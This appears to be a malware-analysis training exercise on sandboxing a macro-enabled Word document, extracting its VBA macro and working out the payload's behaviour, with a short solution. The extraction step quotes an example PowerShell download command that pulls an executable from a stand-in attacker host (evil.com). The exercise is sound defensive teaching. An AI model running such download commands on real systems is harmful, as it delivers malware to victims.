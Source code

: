 # Reverse-Engineer a Malicious Attachment (Macro-Enabled Word Doc) in a Sandbox

**Objective**: Extract the payload from a macro-enabled Word document and determine its behavior.

**Difficulty**: 6/9  
**Time**: 65 minutes

## Steps

1. **Setup Sandbox**  
   - Configure a virtual machine (e.g., Windows 10 on VirtualBox) with no network access to isolate the environment.

2. **Open Document**  
   - Open the macro-enabled Word document in the sandbox.  
   - Enable macros in a monitored environment, using tools like Process Monitor to capture activity.

3. **Monitor Activity**  
   - Use Sysinternals tools (e.g., Procmon, Process Explorer) to log:  
     - File system changes  
     - Registry modifications  
     - Network connection attempts

4. **Extract Payload**  
   - If macros execute a PowerShell command (e.g., `IWR http://evil.com/malware.exe`), capture the command.  
   - Use `oledump.py` to extract and analyze VBA macro code from the document.

5. **Analyze Payload**  
   - If the payload is a downloader, simulate the request in a controlled environment (e.g., using `curl` on a Linux VM) to retrieve the binary safely.

6. **Determine Behavior**  
   - Analyze the binary using tools like `strings` or a disassembler (e.g., IDA Free) to identify:  
     - Persistence mechanisms (e.g., registry keys)  
     - Command-and-control (C2) communication patterns

7. **Report**  
   - Summarize the payload type and behavior.  
   - Example: “Downloads ransomware, connects to 192.168.1.100.”

## Solution

The macro downloads an executable (EXE) from a command-and-control (C2) server. The payload establishes persistence (e.g., via registry modifications) and performs data encryption, indicating ransomware behavior.

